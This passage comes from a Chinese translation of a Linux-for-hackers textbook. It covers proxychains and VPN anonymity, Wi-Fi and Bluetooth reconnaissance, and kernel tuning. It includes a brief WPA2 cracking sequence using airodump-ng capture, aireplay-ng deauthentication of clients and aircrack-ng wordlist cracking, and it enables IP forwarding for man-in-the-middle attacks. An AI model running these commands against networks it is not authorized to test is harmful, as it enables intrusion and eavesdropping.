在我们的proxychain.conf文件中有多个ip，我们可以设置动态链接（*dynamic
chaining*），它通过列表中的每个代理运行我们的流量，如果其中一个代理宕机或没有响应，则自动转到列表中的下一个代理，而不会抛出错误。如果我们不设置这个，则其中一个失败的代理将会破坏我们整个的请求。

回到proxychain配置文件中，找到dynamic_chain行(第10行)并取消注释，如下所示。还要确保注释掉strict_chain行(如果还没有的话)。

\# dynamic_chain

\#

\# Dynamic – Each connection will be done via chained proxies

\# all proxies chained in the order as they appear in the list

\# at least one proxy must be online to play in chain

­­snip­­

这将实现我们代理的动态链接，从而允许更大的匿名性和无故障的黑客攻击。保存配置文件并随意试用它。

##### 随机链接

最后一个代理技巧是随机链接（*random
chaining*）选项，其中proxychain将从列表中随机选择一组IP地址，并使用它们创建代理链。这意味着每次我们使用proxychain时，代理对目标的外观都会有所不同，这使得从源跟踪我们的流量变得更加困难。这个选项也被认为是“动态”的，因为如果一个代理关闭，它将跳到下一个代理。

回到/etc/proxychain.conf文件中，通过在每个行代码的开头添加一个\#来注释掉dynamic_chain和strict_chain这两行代码，然后取消对random_chain行代码的注释。我们一次只能使用这三个选项中的一个，所以在使用proxychain之前一定要注释掉其他选项。

接下来，使用chain_len查找并取消对该行的注释，然后给出一个合理的数字。这一行确定在创建随机代理链时将使用链中的多少IP地址。

\# dynamic_chain

\#

\# Dynamic – Each connection will be done via chained proxies

\# all proxies chained in the order as they appear in the list

\# at least one proxy must be online to play in chain

\#

\# strict_chain

\#

\# Strict ­ Each connection will be done via chained proxies

\# all proxies chained in the order as they appear in the list

\# all proxies must be online to play in chain

\# otherwise EINTR is returned to the app

\#

random_chain

\# Random ­ Each connection will be done via random proxy

\# (or proxy chain, see chain_len) from the list.

\# this option is good to test your IDS :)

\# Makes sense only if random_chain

chain_len = 3

在这里，我已经取消了chain_len的注释，并将其赋值为3，这意味着proxychain现在将使用/etc/proxychain
.conf文件中我的列表中的三个代理，随机选择它们，并在代理关闭时转移到下一个代理。请注意，虽然这种方法肯定会增强匿名性，但也会增加在线活动的延迟。

现在您已经知道如何使用proxychain，您可以在相对匿名的情况下进行黑客攻击。我说“相对”，是因为在NSA和FSB（美国国家安全局和联邦安全局）监视我们的网络活动的情况下，没有绝对可靠的方法来保持匿名，但我们可以借助proxychain来更有效地进行侦查。

#### *安全问题*

关于代理安全性的最后一个注意事项是，一定要明智地选择您的代理：proxychains只与您使用的代理一样好。如果您希望保持匿名，请不要使用前面提到的免费代理。黑客使用可信任的付费代理。事实上，免费代理很可能会出售你的IP地址和浏览历史。正如著名密码学家和安全专家布鲁斯施奈尔(Bruce
Schneier)曾经说过的，“如果有些东西是免费的，那么你就不是客户的产品，你就是它的用户。”换句话说，任何免费产品都有可能收集你的数据并出售。不然他们为什么要免费提供代理呢?

虽然您离开代理的流量的IP地址是匿名的，但是监视机构可以通过其他方式识别您。例如，代理的所有者将知道您的身份，如果受到足够的间谍或有管辖权的执法机构的压力，可能会提供您的身份来保护他们的业务。了解代理作为匿名来源的局限性是很重要的。

### 虚拟专用网络

使用虚拟专用网(VPN)是保持您的web流量相对匿名和安全的有效方法。VPN用于连接到一个中间的互联网设备，例如路由器，它将您的流量发送到其最终目的地，并使用该路由器的IP地址进行标记。

使用VPN当然可以增强您的安全性和隐私，但它不能保证匿名。您所连接的互联网设备必须记录或记录您的IP地址，以便能够正确地将数据发送回您，这样任何能够访问这些记录的人都可以发现关于您的信息。

VPN的优点是简单易用。您可以在VPN提供商那里开户，然后在每次登录计算机时无缝连接VPN。您可以像往常一样使用浏览器来浏览web，但是任何人看到您的流量来自互联网
VPN设备的IP地址和位置，而不是您自己的。另外，您与VPN设备之间的所有通信都是加密的，所以即使您的互联网服务提供商也看不到您的通信。

除此之外，VPN可以有效地规避政府控制的内容和信息审查。例如，如果您的国家政府限制您访问具有特定政治信息的网站，您可以使用您所在国家/地区以外的VPN来访问该内容。
一些媒体公司，如Netflix，Hulu和HBO，将其内容的访问权限限制为源自其本国的IP地址。在这些服务允许的国家/地区使用VPN通常可以帮助您解决这些访问限制。

根据CNET，一些最好和最受欢迎的商业VPN服务如下：

-   IPVanish

-   NordVPN

-   ExpressVPN

-   CyberGhost

-   Golden Frog VPN

-   Hide My Ass (HMA)

-   Private Internet Access

-   PureVPN

-   TorGuard

-   Buffered VPN

大多数VPN服务每年收费50 -
100美元，许多还提供30天免费试用期。要了解如何设置VPN的更多信息，请从列表中选择一个并访问该网站。您应该可以找到非常容易遵循的下载、安装和使用说明。

VPN的优点是所有流量在离开计算机时都是加密的，从而保护您不受窥探，当您访问一个站点时，您的IP地址被VPN
IP地址所掩盖。与代理服务器一样，VPN的所有者拥有您的原始IP地址(否则他们无法将您的流量发回给您)。如果他们受到间谍机构或执法部门的压力，他们可能会放弃你的身份。防止这种情况的一种方法是只使用承诺不存储或记录任何此类信息的vpn(并希望它们是真实的)。这样，如果有人坚持要求VPN服务提供商将数据交给用户，那么就没有数据。

### 加密的电子邮件

免费的商业电子邮件服务，如Gmail，雅虎!，Outlook Web
Mail(前身为Hotmail)的免费是有原因的：它们是追踪你的兴趣和提供广告的工具。如前所述，如果服务是免费的，那么您就是产品，而不是客户。此外，电子邮件提供者的服务器(例如谷歌)可以访问电子邮件的未加密内容，即使您使用HTTPS。

防止窃听你的电子邮件的一个方法是使用加密的电子邮件。ProtonMail，如图13-5所示，从一端加密到另一端或从一个浏览器加密到另一个浏览器。这意味着您的电子邮件是在ProtonMail服务器上加密的，即使是ProtonMail管理员也无法读取您的电子邮件。

ProtonMail是由一群年轻的科学家在瑞士欧洲核子研究中心（CERN）的超级对撞机设施工厂建立的。瑞士在保护机密方面有着悠久而传奇的历史(还记得你经常听说的那些瑞士银行账户吗?)
ProtonMail的服务器位于欧盟，该网络在分享个人数据方面有着比美国法律更为严格的法律规定。ProtonMail不收取基本帐户，但提供保费帐户象征性的费用。需要注意的是，在与非protonmail用户交换电子邮件时，可能有部分或全部电子邮件没有加密。有关详细信息，请参见ProtonMail支持知识库。

*图13-5：ProtonMail登录界面*

### 总结

我们不断受到商业公司和国家情报机构的监视。为了保证数据和web传输的安全性，您需要实现本章中讨论的至少一种安全措施。通过组合使用它们，您可以最大限度地减少在Web上的占用空间并使数据更加安全。

14
--

理解和检查无线网络
------------------

UNDERSTANDING AND INSPECTING WIRELESS NETWORKS

从你的系统扫描和连接到其他网络设备的能力对于成为一名成功的黑客至关重要，并且随着WiFi（IEEE
802.1）和蓝牙等无线技术成为标准，寻找和控制WiFi和蓝牙连接是关键。如果有人可以破解无线连接，他们可以进入设备并访问机密信息。当然，第一步是学习如何找到这些设备。

在第3章中，我们研究了Linux中的一些基本网络命令，包括无线网络的一些基本原理，并承诺在第14章中提供更多的无线网络知识。正如所承诺的，这里我们将研究两种Linux最常见的无线技术：WiFi和蓝牙。

### WI-FI 网络

我们先从Wi-Fi开始。在本节中，我将向您展示如何查找、检查和连接Wi-Fi接入点。在进行此操作之前，让我们花点时间了解一些基本的Wi-Fi术语和技术，以帮助您更好地了解我们将在本章中进行的大量查询的输出：

**AP (access point)** 这是无线用户连接到互联网的设备。

**ESSID (extended service set identifier)** 这和我们在第三章讨论到的 SSID
相同，不过它可以用于无线局域网中的多个AP中。

**BSSID (basic service set identifier)**
这是每个AP的唯一标识符，与设备的MAC地址相同。

**SSID (service set identifier)** 这是网络的名称。

**Channels**
Wi­Fi可以在14个信道（1-14）中的任何一个信道上工作。在美国，Wi-Fi被限制在信道1到11。

**Power** 你距离 WI-Fi AP越近,功率越大，连接越容易破解。

**Security** 这是正在读取的WiFi AP上使用的安全协议。 WiFi有三种主要的安全协议。
最初的有线等效保密（WEP）存在严重缺陷，容易破解。
它的替代品，WiFi保护访问（WPA），更安全一点。
最后，WPA2-PSK更加安全并且使用所有用户共享的预共享密钥（PSK），现在几乎所有WiFi
AP（企业WiFi除外）都使用它。

**Modes** Wi­Fi可以在三种模式下切换：managed, master,
或者monitor。你将在下一节中了解这些模式的含义。

**Wireless range** 在美国，Wi-Fi AP必须合法地以0.5瓦的上限广播其信号。
在此功率下，它具有约300英尺（100米）的正常范围。
Highgain天线可以将此范围扩展到20英里。

**Frequency** Wi­Fi被设计用于2.4GHz和5GHz。 现代Wi-Fi
AP和无线网卡经常使用这两者。

#### *基本无线网络命令*

在第3章中，我们介绍了基本的Linux网络命令ifconfig，它列出了系统上每个激活的网络接口以及一些基本统计信息，包括（最重要的）每个接口的IP地址。让我们再看看运行ifconfig的结果，这次重点关注无线连接。

kali \>ifconfig

eth0Linkencap:EthernetHWaddr 00:0c:29:ba:82:0f

inet addr:192:168.181.131 Bcast:192.168.181.255 Mask:255.255.255.0

­­snip­­

lo Linkencap:Local Loopback

inet addr:127.0.0.1 Mask:255.0.0.0

­­snip­­

➊ wlan0 Link encap:EthernetHWaddr 00:c0:ca:3f:ee:02

这里的Wi-Fi接口显示为 wlan0 ➊。在Kali Linux中，Wi-Fi接口通常被指定为wlanX，X
代表该接口的编号。换句话说，系统上的第一个Wi-Fi适配器将标记为wlan0，第二个是wlan1，依此类推。

如果您只想查看Wi-Fi接口及其统计数据，Linux有一个与 ifconfig
类似但专用于无线的特定命令。这个命令是iwconfig。输入时，仅显示无线接口及其关键数据：

kali \>iwconfig

lo no wireless extensions

wlan0 IEEE 802.11bg ESSID:off/any

Mode:Managed Access Point:Not­Associated Tx­Power=20 dBm

Retry short limit:7 RTS thr:off Fragment thr:off

Encryption key:off

Power Management:off

eth0 no wireless extensions

在这里，我们只看到无线接口（也称为网卡）及其关键数据，包括使用的无线标准、ESSID是否关闭以及模式。该模式有三个设置：*managed*，这意味着它已准备好加入或已加入AP；*master*，这意味着它已准备好充当或已经加入AP；以及*monitor*，我们将在章节稍后讨论。我们还可以看到是否有任何客户端与之相关联，以及它的传输功率是什么，等等。从这个例子可以看出，wlan0处于连接Wi-Fi网络所需的模式，但尚未连接到任何网络。一旦无线接口连接到Wi-Fi网络，我们将再次访问此命令。

如果您不确定要连接哪一个Wi-Fi
AP，可以使用iwlist命令查看您的网卡可以访问的所有无线接入点。iwlist的语法如下：

iwlist interface action

你可以使用iwlist执行多个操作。出于我们的目的，我们将使用扫描操作来查看您所在地区的所有Wi-Fi
AP。（请注意，使用标准天线，您的范围将为300-500英尺，但这可以通过廉价的高增益天线来扩展。）

kali \>iwlist wlan0 scan

wlan0 Scan completed:

Cell 01 ­ Address:88:AD:43:75:B3:82

Channel:1

Frequency:2.412GHz (Channel 1)

Quality=70/70 Signal level =­38 dBm

Encryption key:off

ESSID:"Hackers­Arise"

­­snip­­

此命令的输出应包括无线接口范围内的所有WiFi
AP，以及每个AP的关键数据，比如这个AP的MAC地址，其运行的信道和频率，其质量，信号电平，
是否启用了加密密钥及其ESSID。

为了进行各种不同的入侵攻击，你将需要目标AP的MAC地址（BSSID），客户端的MAC地址（另一个无线网卡）以及AP操作的通道来执行任何类型的黑客攻击，因此这是有价值的信息。

另一个在管理WiFi连接时非常有用的命令是nmcli（或网络管理器命令行界面）。为网络接口（包括无线接口）提供高级接口的Linux守护程序称为网络管理器。通常，Linux用户从其图形用户界面（GUI）熟悉此守护程序，但也可以从命令行使用它。

nmcli 命令可以使用来查看你附近的Wi-Fi
AP和它们的一些关键信息，像我们使用iwlist一样，但此命令为我们提供了更多信息。我们以nmcli
dev
networktype格式使用它，其中dev是设备(device)的简称以及类型(在本例中)是wifi，如下所示：

kali \>nmcli dev wifi

\* SSID MODE CHAN RATE SIGNAL BARS SECURITY

Hackers­Arise Infra 1 54 Mbits/s 100 WPA1 WPA2

Xfinitywifi Infra 1 54 Mbits/s 75 WPA2

TPTV1 Infra 11 54 Mbits/s 44 WPA1 WPA2

­­snip­­

除了在范围内显示Wi-Fi
AP以及关于它们的关键数据（包括SSID，模式，信道，传输速率，信号强度和设备上启用的安全协议）之外，还可以使用nmcli连接到AP。
连接到AP的语法如下：

nmcli dev wifi connect AP-SSID password APpassword

因此，根据我们的第一个命令的结果，我们知道有一个SSID为Hackers-Arise的AP。我们也知道它具有WPA1
WPA2安全性（这意味着AP能够同时使用旧的WPA1和新的WPA2），这意味着我们必须提供连接到网络的密码。幸运的是，因为它是我们的AP，我们知道密码是12345678，所以我们可以输入以下内容：

kali \>nmcli dev wifi connect Hackers-Arise password 12345678

Device 'wlan0' successfully activated with '394a5bf4­8af4­36f8­49beda6cb530'.

在一个你知晓的网络尝试此操作，然后当你成功连接这个无线AP时，再一次运行iwconfig来观察一下有什么变化。下面是我连接Hackers­-Arise的输出结果：

kali \>iwconfig

lo no wireless extensions

wlan0 IEEE 802.11bg ESSID:"Hackers­Arise"

Mode:Managed Frequency:2.452GHz Access Point:00:25:9C:97:4F:48

Bit Rate=12 Mbs Tx­Power=20 dBm

Retry short limit:7 RTS thr:off Fragment thr:off

Encryption key:off

Power Management:off

Link Quality=64/70 Signal level=­46 dBm

Rx invalid nwid:0 Rx invalid crypt:0 Rx invalid frag:0

Tx excessive reties:0 Invalid misc:13 Missed beacon:0

eth0 no wireless extensions

请注意，现在iwconfig已经指出ESSID是“Hackers-Arise”，并且AP的运行频率为2.452GHz。在Wi-Fi网络中，多个接入点可能都是同一网络的一部分，因此可能会有许多接入点组成Hackers-Arise的网络。如您所料，MAC地址00:25:9C:97:4F:48是我所连接的AP的MAC。Wi-Fi网络使用的安全协议类型，无论是2.4GHz还是5GHz的运行频率，其ESSID是什么，以及AP的MAC地址是什么，都是Wi-Fi入侵攻击所必需的关键信息。既然你现在了解了基本的命令，那么让我们来进行一些黑客入侵攻击。

#### *使用aircrack-ng进行Wi-Fi侦查*

对于入门黑客最受欢迎的攻击之一就是破解Wi-Fi接入点。如前所述，在考虑攻击Wi-Fi
AP之前，你需要目标AP（BSSID）的MAC地址、客户端的MAC地址以及AP正在运行的信道。

我们可以使用aircrack－­ng套件的工具获取尽可能多的信息。我之前提到过这套Wi-Fi黑客工具，现在是时候实际使用了。这套工具包含在Kali的每个版本中，所以你不需要下载或安装任何东西。

要有效地使用这些工具，首先需要将无线网卡置于监视器模式，以便卡能够看到所有经过它的流量。通常情况下，网卡只捕获特定于该卡的流量。监控模式类似于有线网卡上的混杂模式。

要将无线网卡置于监视器模式，请使用Aircrack-ng套件中的airmon-ng命令。此命令的语法很简单：

airmon­ng 　start\|stop\|restart interface

因此，如果要将无线网卡（指定为WLAN）设置为监视器模式，请输入以下内容：

kali \>airmon-ng start wlan0

发现了三个可能导致故障的过程，如果airodump-ng、aireplay-ng或airtun-ng在短时间运行后停止工作，你可能需要运行“airmon-ng
check kill”。

­­snip­­

PHY INTERFACE DRIVER Chipset

phy0 wlan0 rt18187 Realtek Semiconductor Corop RTL8187 (mac8311 monitor mode vif
enabled for [phy0]wlan0 on [phy0]wlan0mon)

­­snip­­

如果遇到故障，分别使用stop和restart命令来恢复，比如stop monitor模式和restart
monitor模式。

当无线网卡处于监视器模式时，你可以在无线网络适配器和天线的范围内访问经过你网卡的所有无线通信（标准约300-500英尺）。请注意，airmon－ng将重命名你的无线接口：我的无线网卡已重命名为“wlan0mon”，尽管你的可能有所不同。一定要记下无线的新的指定名称，因为在下一步中您需要这些信息。

现在，我们将使用Aircrack-ng套件中的另一个工具从无线通信中查找关键数据。airodump-ng命令捕获并显示来自广播AP和连接到这些AP或附近的任何客户端的关键数据。这里的语法很简单：只需插入airdump-ng，后跟刚才运行airmon-ng得到的接口名。当你执行此命令时，你的无线卡将从附近AP的所有无线通信中获取关键信息（如下所示）：

**BSSID** AP或客户端的MAC地址

**PWR** 信号强度

**ENC** 用于保护传输安全的加密类型

**\#Data** 数据吞吐量

**CH AP**运行的信道

**ESSID** AP的名字

kali \>airodump-ng wlan0mon

CH 9][ Elapsed: 28 s ][ 2018­02­08 10:27

BSSID PWR Beacons \#Data \#/s CH MB ENC CIPHER AUTH ESSID

01:01:AA:BB:CC:22 ­1 4 26 0 10 54e WPA2 CCMP PSK Hackers­Arise

­­snip­­

BSSID Station PWR Rate Lost Frames Probe

(not associated) 01:01:AA:BB:CC:22

01:02:CC:DD:03:CF A0:A3:E2:44:7C:E5

注意airodump
ng将输出屏幕分成上下两部分。上面部分包含广播AP的信息，包括BSSID、AP的功率、检测到的信标帧数、数据吞吐量、通过无线网卡的数据包数、信道（1-14）、理论吞吐量限制、加密协议、用于加密的密码类型、身份验证离子类型和ESSID（通常称为SSID）。在客户机部分，输出告诉我们一个客户机没有关联，这意味着它已经被检测到但没有连接到任何AP，另一个客户机与一个工作站关联，这意味着它在该地址连接到AP。

现在你已经掌握了破解AP所需的所有信息！尽管这超出了本书的范围，但要破解无线AP，你需要客户端MAC地址、AP
MAC地址、目标操作的信道和密码列表。

为了破解Wi-Fi密码，你需要打开三个终端。在第一个终端中，您将输入类似以下的命令，填写客户机和AP
MAC地址以及通道：

airodump­ng ­c 10 ­­bssid 01:01:AA:BB:CC:22 ­w Hackers­ArisePSK wlan0mon

此命令使用**-c**选项捕获通过信道10上的AP的所有数据包。

在另一个终端中，你可以使用**aireplay
ng**命令取消（取消身份验证）与AP连接的任何人，并强制他们重新身份验证到AP，如下所示。当他们重新验证时，你可以捕获在WPA2-PSK四次握手中交换的密码散列。密码散列将出现在airodump-ng终端的右上角。

aireplay­ng ­­deauth 100 ­a 01:01:AA:BB:CC:22­c A0:A3:E2:44:7C:E5 wlan0mon

最后，在最后一个终端中，你可以使用密码列表（wordlist.dic）在捕获的散列（hacker-arisesk.cap）中查找密码，如下所示：

aircrack­ng ­w wordlist.dic ­b 01:01:AA:BB:CC:22 Hacker­ArisePSK.cap

### 检测并连接到蓝牙

如今，几乎所有的小器具、移动设备和系统都内置了蓝牙，包括我们的电脑、智能手机、iPod、平板电脑、扬声器、游戏控制器、键盘和许多其他设备。能够入侵蓝牙会导致设备上任何信息的泄露，设备的控制，以及向设备发送不需要的信息的能力等等威胁。

为了利用这项技术，我们需要了解它是如何工作的。对蓝牙的深入了解已经超出了本书的范围，但我将向您提供一些基本知识，帮助你扫描和连接蓝牙设备，为黑客的入侵攻击做好准备。

#### *蓝牙的工作原理*

蓝牙是一种用于低功耗近场通信的通用协议，使用扩频在2.4-2.485GHz下工作，跳频速度为每秒1600跳（这种跳频是一种安全措施）。它由瑞典爱立信公司于1994年开发，以10世纪丹麦国王哈拉尔德蓝牙命名（请注意，瑞典和丹麦在10世纪是一个单一的国家）。

蓝牙规范的最小范围为10米，但没有上限，制造商可以在其设备中实施。许多装置的射程可达100米。有了特殊的天线，这一范围可以扩大得更远。

连接两个蓝牙设备被称为配对。几乎任何两个蓝牙设备都可以相互连接，但只有在处于可发现模式时才能配对。处于可发现模式的蓝牙设备传输以下信息：

-   名称

-   类别

-   服务清单

-   技术信息

当两个设备配对时，它们交换一个密钥或链接密钥。每个存储这个链接键，以便在将来的配对中识别另一个。

每个设备都有一个唯一的48位标识符（类似于MAC的地址），通常还有一个制造商指定的名称。当我们想要识别和访问一个设备时，这些将是有用的数据片段。

#### *蓝牙扫描与侦察*

Linux有一个称为bluez的蓝牙协议栈的实现，我们将使用它来扫描蓝牙信号。大多数Linux发行版，包括Kali
Linux，都默认安装了它。如果没有，通常可以使用以下命令在存储库中找到它：

kali \>apt-get install bluez

BlueZ有许多简单的工具，我们可以用来管理和扫描蓝牙设备，包括：

**hciconfig**
　这个工具的操作与Linux中的ifconfig非常相似，但是对于蓝牙设备。如清单14-1所示，我使用它来打开蓝牙接口并查询设备的规格。

**hcitool**
　此查询工具可以为我们提供设备名称、设备ID、设备类和设备时钟信息，使设备能够同步工作。

**hcidump
　**这个工具使我们能够嗅探蓝牙通信，这意味着我们可以捕获通过蓝牙信号发送的数据。

蓝牙的第一个扫描和侦察步骤是检查我们使用的系统上的蓝牙适配器是否被识别和启用，以便我们可以使用它扫描其他设备。我们可以使用内置的Bluez工具hciconfig来实现这一点，如命令清单14-1所示。

kali \>hciconfig

hci0: Type: BR/EDR Bus: USB

BD Address: 10:AE:60:58:F1:37 ACL MTU: 310:10 SCO MTU: 64:8 UP RUNNING PSCAN
INQUIRY

RX bytes:131433 acl:45 sco:0 events:10519 errors:0 TX bytes:42881 acl:45 sco:0
commands:5081 errors:0

*清单 14­1: 扫描蓝牙设备*

如你所见，我的蓝牙适配器的MAC地址是10:ae:60:58:f1:37。此适配器已命名为HCI0。下一步是检查连接是否已启用，我们也可以通过提供名称和up命令来使用hciconfig:

kali \>hciconfig hci0 up

如果命令成功运行，我们将看不到输出，只看到一个新的提示。很好，hci0准备好了！让我们开始工作吧。

##### 使用hcitool扫描蓝牙设备

现在我们知道适配器已经启动，我们可以使用Bluez套件中的另一个工具hcitool来扫描范围内的其他蓝牙设备。

让我们首先使用这个工具的扫描功能来查找发送发现信标的蓝牙设备，这意味着它们处于发现模式，简单的扫描命令如清单14-2所示。

kali \>hcitool

Scanning...

72:6E:46:65:72:66 ANDROID BT

22:C5:96:08:5D:32 SCH­I535

*清单 14­2: 在发现模式下扫描蓝牙设备*

如你所见，在我的系统中，hcitool发现了两个设备，ANDROID
BT和SCH­I535。你的可能会根据您周围的设备提供不同的输出。出于测试目的，请尝试将你的手机或其他蓝牙设备置于发现模式，并查看扫描时是否接收到该设备。

现在，让我们收集有关具有查询功能的已检测设备的更多信息：

kali \>hcitool inq

Inquiring...

24:C6:96:08:5D:33 clock offset:0x4e8b class:0x5a020c

76:6F:46:65:72:67 clock offset:0x21c0 class:0x5a020c

这给了这给了我们设备的MAC地址、时钟偏移量和设备类别。该类指示您找到的蓝牙设备的类型，您可以通过访问蓝牙SIG站点（https://www.bluetooth.org/en-us/specification/assigned-numbers/service-discovery/）来查找代码并查看它是什么类型的设备。

工具hcitool是一个强大的命令行接口蓝牙栈，可以做很多很多事情。清单14-3显示了帮助页面，其中包含一些可以使用的命令。亲自查看帮助页面以查看完整列表。

kali \>hcitool --help

hcitool ­ HCI Tool ver 4.99

Usage:

hcitool [options] \<command\> [command parameters]

Options:

­­help Display help

­i dev HCI device

Commands

dev Display local devices

inq Inquire remote devices

scan Scan for remote devices

name Get name from remote devices

­­snip­­

*清单 14­3: 一些 hcitool 命令*

许多蓝牙黑客工具，你将看到周围简单地使用这些命令在脚本，你可以很容易地创建你自己的工具使用这些命令在你自己的bash或python脚本，我们将在第17章研究这些脚本。

##### 使用sdptool扫描服务

服务发现协议（SDP）是一种用于搜索蓝牙服务的蓝牙协议（蓝牙是一套服务），而且，很有帮助的是，bluez提供了sdp
tool工具，用于浏览设备上提供的服务。还需要注意的是，设备不必处于要扫描的发现模式。语法如下：

sdptool browse MACaddress

清单14-4显示了我使用sdptool在清单14-2前面检测到的某个设备上搜索服务。

kali \>sdptool browse 76:6E:46:63:72:66

Browsing 76:6E:46:63:72:66...

Service RecHandle: 0x10002

Service Class ID List:

""(0x1800)

Protocol Descriptor List:

"L2CAP" (0x0100)

PSM: 31

"ATT" (0x0007)

uint16: 0x1

uint16: 0x5

­­snip­­

*清单 14­4: 使用 sdptool扫描*

在这里，我们可以看到sdptool工具能够获取关于这个设备能够使用的所有服务的信息。特别地，我们看到这个设备支持ATT协议，即低能量属性协议。这可以为我们提供更多关于设备是什么的线索，以及可能的进一步与之交互的途径。

##### 通过l2ping查看设备是否可以访问

一旦我们收集了所有附近设备的MAC地址，我们就可以向这些设备发送ping，无论它们是否处于发现模式，以查看它们是否在可访问范围内。这让我们知道它们是否在活动范围内。要发送ping，我们使用L2ping命令，语法如下：

l2ping MACaddress

清单14-5显示了我对清单14-2中发现的Android设备执行ping操作。

kali \>l2ping 76:6E:46:63:72:66 -c 4

Ping: 76:6E:46:63:72:66 from 10:AE:60:58:F1:37 (data size 44)...

44 bytes 76:6E:46:63:72:66 id 0 time 37.57ms

44 bytes 76:6E:46:63:72:66 id 1 time 27.23ms

44 bytes 76:6E:46:63:72:66 id 2 time 27.59ms

­­snip­­

*清单 14­5: Ping蓝牙设备*

　　此输出表示MAC地址为76:6e:46:63:72:66的设备在范围内且可访问。这是有用的知识，因为在我们考虑黑客攻击之前，我们必须知道设备是否可以访问。

### 总结

无线设备代表未来的网络连通和黑客入侵攻击的核心。Linux已经开发了专门的命令来扫描和连接Wi-Fi接入点，这是黑客攻击这些系统的第一步。aircrack-ng无线黑客工具套件包括airmon-ng和airodump-ng，使我们能够从远程无线设备。Bluez套件包括hciconfig、hcitool和其他能够扫描和收集信息的工具，这些工具是在一定范围内对蓝牙设备进行黑客攻击所必需的。它还包括许多其他值得探索的工具。

15
--

管理LINUX内核和可加载内核模块
-----------------------------

MANAGING THE LINUX KERNEL AND LOADABLE KERNEL MODULES

所有操作系统至少由两个主要组件组成。其中第一个也是最重要的是内核。
内核位于操作系统的中心，控制着操作系统所做的一切，包括管理内存，控制CPU，甚至控制用户在屏幕上看到的内容。操作系统的第二个元素通常被称为用户区域，几乎包括其他所有元素。

内核被设计成一个受保护或特权的区域，只能由root帐户或其他特权帐户访问。这是有充分理由的，因为对内核的访问几乎可以提供对操作系统的自由访问。因此，大多数操作系统只向用户和服务提供对用户区域内的访问，用户可以在不控制操作系统的情况下访问几乎任何他们需要的内容。

访问内核允许用户更改操作系统的工作方式，外观和感觉。它还允许它们使操作系统崩溃，使其无法工作。
尽管存在这种风险，但在某些情况下，出于操作和安全原因，系统管理员必须非常谨慎地访问内核。

在本章中，我们将研究如何改变内核的工作方式并将新模块添加到内核中。不言而喻，如果黑客可以改变目标的内核，他们就可以控制系统。此外，攻击者可能需要改变内核对某些攻击的作用，例如中间人（MITM）攻击，黑客将自己置于客户端和服务器之间，并且可以窃听或改变通信。首先，我们将仔细研究内核结构及其模块。

### 什么是内核模块？ 

内核是操作系统的中枢神经系统，控制着它所做的一切，包括管理硬件组件之间的交互和启动必要的服务。内核在你看到的用户应用程序和运行所有东西的硬件（如CPU，内存和硬盘驱动器）之间运行。

Linux是一个单片内核，可以添加内核模块。因此，可以在内核中添加和删除模块。内核有时需要更新，这可能需要安装新的设备驱动程序（如视频卡，蓝牙设备或USB设备），文件系统驱动程序，甚至系统扩展。
必须将这些驱动程序嵌入到内核中才能完全正常运行。在某些系统中，要添加驱动程序，您必须重建、编译和重新引导整个内核，但Linux能够在不经过整个过程的情况下向内核添加一些模块。这些模块称为可加载内核模块或LKM。

LKM必须能够访问内核的最低级别，这使得它们成为黑客极易攻击的目标。一种称为rootkit的特殊类型的恶意软件通常通过这些LKM嵌入到操作系统的内核中。如果恶意软件嵌入内核，黑客就可以完全控制操作系统。

如果黑客可以让Linux管理员将新模块加载到内核，那么黑客不仅可以获得对目标系统的控制权，而且因为他们在操作系统的内核级别运行，可以控制目标系统正在运行的进程，端口，服务，硬盘空间以及您能想到的几乎任何其他内容。

因此，如果黑客可以成功诱使Linux管理员安装其中嵌入了rootkit的视频或其他设备驱动程序，则黑客可以完全控制系统和内核。这是一些最阴险的rootkit利用Linux和其他操作系统的方式。

了解LKM绝对是成为一名有效的Linux管理员并成为一名非常有效和隐秘的黑客的关键。

让我们来看看如何管理内核的好与坏。

### 检查内核版本

了解内核的第一步是检查系统正在运行的内核。至少有两种方法可以做到这一点。首先，我们可以输入以下内容：

kali \>uname -a

Linux Kali 4.6.0­kalil­amd64 \#1 SMP Debian 4.6.4­lkalil (2016­07­21) x86_64

内核通过告诉我们，我们的操作系统正在运行的发行版是linux
kali，内核版本是4.6.4，它构建的架构是x86_64架构。它还告诉我们它具有对称多处理（SMP）功能（意味着它可以在具有多个核心或处理器的机器上运行），并于2016年7月21日在Debian
4.6.4上构建。根据构建中使用的内核和系统中的CPU，您的输出可能会有所不同。安装或加载内核驱动程序时可能需要这些信息，因此了解如何获取这些信息非常有用。

获取这些信息以及其他一些有用信息的另一种方法是对/proc/version文件使用**cat**命令，如下所示：

kali \>cat /proc/version

Linux version 4.6.0­kalil­amd64 (devel\@kali.org) (gcc version 5.4.0 20160909
(Debian 5.4.0­6) ) \#1 SMP Debian 4.6.4­lkalil (2016­07­21)

在这里，你可以看到/proc/version文件返回了相同的信息。

### 使用sysctl进行内核优化

使用正确的命令，你可以优化你的内核，意味着你可以更改内存分配，开启网络功能，甚至可以加固你的内核以抵御外部攻击。

现代Linux内核使用**sysctl**命令来优化内核选项。使用sysctl所做的所有更改仅在重新启动系统之前有效。要使任何更改永久化，必须直接在/etc/sysctl.conf编辑sysctl的配置文件。

一句警告：在使用sysctl时需要小心，因为如果没有相匹配的知识和经验，你很容易使系统无法运行和崩溃。在做任何永久性的改变之前，确保你已经仔细考虑清楚了你正在做的事情。

现在让我们来看一下sysctl的内容。到目前为止，你应该通过此处显示的命令识别我们提供的选项：

kali \>sysctl -a \| less

dev.cdrom.autoclose = 1

dev.cdrom.autoeject = 0

dev.cdrom.check_media = 0

dev.cdrom.debug = 0

­­snip­­

在输出中，你应该看到数百行参数，Linux管理员可以编辑这些参数来优化内核。这里有些内容对你作为黑客十分有用。作为如何使用sysctl的示例，我们将介绍如何启用数据包转发功能。

在中间人（MITM）攻击中，黑客将自己置于通信主机之间，以截获信息。流量会经过黑客系统，因此他们可以查看并可能更改通信。实现这种路由的一种方法是启用包转发。

如果向下滚动查询输出中的几页或过滤“ipv4”（sysctl -a \| less \| grep
ipv4），你应该能看到以下内容：

net.ipv4.ip_dynaddr = 0

net.ipv4.ip_early_demux = 0

net.ipv4.ip_forward = 0

net.ipv4.ip_forward_use_pmtu = 0

­­snip­­

net.ipv4.ip_forward =
0该行是内核参数，它使内核能够转发它接收的数据包。换而言之，它接收的数据包将被发送出去。默认设置为0，这意味着禁用了数据包转发。

要启用IP转发，请按照这样输入——将0更改为1：

kali \>sysctl -w net.ipv4.ip_forward=1

请记住，sysctl更改发生在系统运行时，但在系统重新启动时消失。要对sysctl进行永久性更改，你需要编辑配置文件/etc/sysctl.conf。下面让我们来更改内核处理MITM攻击的IP转发的方式，并使此更改永久化。

